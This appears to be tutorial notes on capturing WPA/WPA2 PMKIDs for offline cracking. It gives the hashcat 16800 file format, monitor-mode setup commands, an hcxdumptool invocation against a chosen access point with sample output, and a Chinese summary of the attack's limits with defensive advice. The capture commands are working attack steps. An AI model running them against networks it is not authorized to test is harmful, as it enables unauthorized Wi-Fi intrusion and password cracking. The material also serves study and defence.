     So far we arrived.
    The "crack" part (attack by dictionary or brute force) can be done at the moment with hashcat.
    We have all the elements to form our "hash". There will probably be alternatives soon. But we already left the focus of this topic: get the PMKID (and the other chains) with the most fundamental: bash and wpa_supplicant. Two things that we will find in all linux systems.
* Form the 16800 file
The content of the written file will look like this: `2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a` The columns are the following (all hex encoded):
    * PMKID
    * MAC AP
    * MAC Station
    * ESSID
### getting PMKID using hcxdumptool
#### Experience
* By using `hcxdumptool`, PMKID can be found from some routers (e.g. china union router CU_XXXX), but cannot be found from some routers (e.g. TP-Link routers), no matter how the parameters are set.
* can get PMKIDs from all available routers by running `hcxdumptool` without `--filterlist=<filterfile>`
* 最后，对于利用PMKID破解PSK的新攻击方式，我做出如下总结：
  1. 该攻击方式并没有明显降低攻击WPA/WPA2网络的难度，依然需要字典式进行暴力破解，只是允许在无客户端情况下进行。
  2. 该攻击只对WPA-PSK/WPA2-PSK有效，对企业级802.1X认证热点（WPA-Enterprise）无效。
  3. 大部分低端家用级路由器由于不支持漫游特性，对该攻击免疫；少部分中高端路由器（往往支持802.11AC）可能受影响，用不上就关掉吧（如果可以的话）。
  4. 对于用户：依然是提高无线密码复杂度，警惕热点密码分享APP。
  5. 对于路由器厂商：对WPA-PSK考虑是否有支持漫游特性的必要，或者增加开关。
#### 0. get prepare and choose a target ap
* `sudo airmon-ng check kill`
* `sudo airmon-ng start wlx70f11c11576b`
* `sudo airodump-ng wlan0mon` `Ctrl+C`
* `echo "FCD733E71B78" > apmac.txt`
* `sudo airmon-ng stop wlan0mon`
* set the interface to monitor mode manually:
*   `sudo ip link set <interface> down`
*   `sudo iw dev <interface> set monitor control`
*   `sudo ip link set <interface> up`
#### 1. Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file( in pcapng format)
`$ sudo hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --filterlist=apmac.txt --filtermode=2 --enable_status=3`

Output:

        starting scapturing (stop with ctrl+c)
        INTERFACE............:wlp39s0f3u4u5
        FILTERLIST............:0 entries
        MAC CLIENT............:89acf0e761f4(client)
        MAC ACCESS POINT............:4604ba734d4e(start NIC)
        EAPOL TIMEOUT............:20000
        DEAUTHENTICATIONINTERVALL:10 beacons
        GIVE UP DEAUTHENTICATIONS:20 tries
        REPLAYCOUNTERR............:62083
        ANONCE............:9ddca61888470946305b27d413a28cf474f19ff64c71667e5c1aee144cd70a69
IF an AP receives our association request packet and supports sending PMKID we will see a message "FOUND PMKID" after a moment:
